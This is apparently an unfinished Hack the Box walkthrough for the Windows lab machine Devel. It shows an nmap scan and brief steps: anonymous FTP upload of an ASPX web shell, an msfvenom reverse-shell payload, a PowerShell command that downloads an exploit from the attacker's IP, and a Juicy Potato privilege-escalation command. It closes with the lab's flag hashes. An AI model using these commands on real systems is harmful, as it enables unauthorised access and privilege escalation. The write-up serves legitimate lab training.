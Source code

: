 ```yaml
---
title: Devel - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Devel.png
---
```

#windows #manual #unfinished
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.5 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 16:09 EDT
Nmap scan report for 10.10.10.5
Host is up (0.13s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 188.94 seconds

```

### Enumeration


##### 21
FTP anonymous![Image](/assets/Screenshot 2024-09-09 at 4.29.40 PM.png)
big nono cve![Image](/assets/Screenshot 2024-09-09 at 4.41.32 PM.png)
FTP upload![Image](/assets/Screenshot 2024-09-09 at 6.25.26 PM.png)
ASP/X vulnerability upon research of version
webshell prompt!![Image](/assets/Screenshot 2024-09-09 at 6.26.19 PM.png)
nishang shell served bby python server (Invokerevtcp)

version information![Image](/assets/Screenshot 2024-09-09 at 6.58.49 PM.png)
Local privesc to fit our needs
![Image](/assets/Screenshot 2024-09-09 at 7.02.07 PM.png)
Compiling notes in exploit db![Image](/assets/Screenshot 2024-09-09 at 7.04.56 PM.png)
update and install mingw-w64
compile `i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32`
push from box to target `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.3:80/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"`

##### 80
Landing Page ![Image](/assets/Screenshot 2024-09-09 at 4.27.54 PM.png)
Microsoft IIS server 7.5
upload aspx and set up listener
make and move to temp dir to transfer juicy potato and revshell (rev shell `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9999 -f exe > reverse.exe`)

move files with certutil

set up listener for higher priv shell
use JP to escalate `jp.exe -l 9999 -p rev.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}`. Make sur eto use x86 for this box, as its 32 bit.

Boom ![Image](/assets/Screenshot 2024-10-04 at 9.30.24 PM.png)

USER:aeb10d6e0f12af213b3313aaf5d006a3

ROOT:e4c733d153de83f5cb330af1ebc6470e
USER: e1b33ec1245ae20d092a935b35203c7e
